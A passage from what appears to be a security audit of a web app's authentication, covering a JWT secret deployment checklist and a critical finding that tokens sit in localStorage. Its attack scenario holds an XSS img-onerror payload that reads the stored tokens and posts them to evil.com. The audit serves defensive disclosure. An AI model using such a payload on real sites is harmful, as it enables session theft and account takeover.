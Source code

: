 #### Deployment Checklist

- [ ] Generate production secret: `openssl rand -base64 64`
- [ ] Store in secure secrets manager (AWS Secrets Manager, Vault, etc.)
- [ ] Set `JWT_SECRET` environment variable on production servers
- [ ] Verify secret is at least 64 characters
- [ ] Confirm secret is NOT in version control
- [ ] Document secret rotation procedure
- [ ] Set up monitoring for JWT validation failures

---

### Issue #2: Tokens Stored in localStorage (XSS Vulnerability)

**Severity:** 🔴 CRITICAL (9/10)
**CVSS Score:** 8.8 (High)
**Files Affected:**
- `/packages/client/src/contexts/auth-context.tsx:91-93`
- `/packages/client/src/lib/router/auth.ts:29-32`

#### Vulnerability Description

JWT tokens are stored in browser `localStorage`, which is accessible to **all JavaScript** running on the page. Any XSS vulnerability instantly compromises all user sessions.

```typescript
// Current implementation - VULNERABLE:
localStorage.setItem(STORAGE_KEYS.ACCESS_TOKEN, data.accessToken)
localStorage.setItem(STORAGE_KEYS.REFRESH_TOKEN, data.refreshToken)
```

**Why This is Critical:**
- localStorage is accessible to all JavaScript (including malicious scripts)
- Any XSS vulnerability = complete token theft
- Tokens persist across browser restarts
- No protection against compromised third-party scripts

#### Attack Scenario

```html
<!-- Attacker injects malicious script via XSS: -->
<img src=x onerror="
  // Steal all auth tokens
  const tokens = {
    access: localStorage.getItem('promptliano_access_token'),
    refresh: localStorage.getItem('promptliano_refresh_token'),
    user: localStorage.getItem('promptliano_user')
  };

  // Send to attacker's server
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: JSON.stringify(tokens)
  });

  // Attacker now has full account access
">
```
